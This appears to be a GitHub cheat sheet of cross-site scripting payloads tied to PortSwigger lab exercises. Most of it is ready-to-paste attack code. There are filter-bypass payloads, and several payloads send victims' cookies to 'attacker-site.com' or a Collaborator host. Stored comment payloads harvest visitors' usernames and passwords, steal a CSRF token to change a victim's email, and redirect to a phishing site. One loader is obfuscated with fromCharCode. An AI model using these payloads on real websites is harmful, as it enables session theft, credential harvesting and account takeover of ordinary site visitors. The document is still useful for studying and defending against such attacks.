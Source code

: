 ## XSS

![XSS-variants](https://github.com/user-attachments/assets/0f908703-6b48-4424-acb2-7487e776765d)

### Basics:
```
<§§>                                 --//https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
<script>alert(1)</script>
<custom-tag> or <xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
http://foo?&apos;-alert(1)-&apos;    --//write into the "website input" (comments)
javascript:alert(1)
"onmouseover="alert(1)
\'-alert(1)//
<svg/onload=prompt(1337);>
<><img src=1 onerror=alert(1)>       --// the website uses the JavaScript replace() function to encode angle brackets
\"-alert(1)}//                       --// the string is reflected in a JSON response called search-results
{{$on.constructor('alert(1)')()}}    --// if your random string is enclosed in an ng-app directive.
```

### Obtain cookies or tokens:

```
fetch('https://attacker-site.com/steal-cookies?cookie=' + encodeURIComponent(document.cookie));

<img src=x onerror="fetch('https://attacker-site.com/?c='+document.cookie)">

<script>eval(String.fromCharCode(102,101,116,99,104,40,39,104...));</script>

<script>(()=>{fetch('https://attacker-site.com/?c='+document.cookie)})()</script>

<script src="https://attacker-site.com/malicious.js"></script> //import from another site

let img = new Image();
img.src = 'https://attacker-site.com/log?cookie=' + encodeURIComponent(document.cookie);

navigator.sendBeacon('https://attacker-site.com/steal-cookies', 'cookie=' + encodeURIComponent(document.cookie));

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>

<script>
location='https://kek.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>
```
--------------------------------------------
#### post this in the comment section - it will send all cookies for all viewers this comment:
```
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
### XSS redirect to another site options:
```
--------------------------------------------
#### post this payload in the blog comment section - 
script will make anyone who views the comment issue a POST request containing their username and password to your subdomain of the public Collaborator server:
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
--------------------------------------------
#### Submit the following payload in the comment section
This will make anyone who views the comment issue a POST request to change their email address to test@test.com:
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
--------------------------------------------
### XSS to redirect or view another site on the target site:
```
<script>window.location.href = "https://phishing-site.com";</script>

<script>window.location.replace("https://phishing-site.com");</script>

<script>window.location.assign("https://phishing-site.com");</script>

<meta http-equiv="refresh" content="0;url=https://phishing-site.com">

<body onload="window.location.href='https://phishing-site.com'">

<a href="#" onclick="window.location.href='https://phishing-site.com'">Click here</a>

<iframe src="https://phishing-site.com" style="display:none;"></iframe>
```
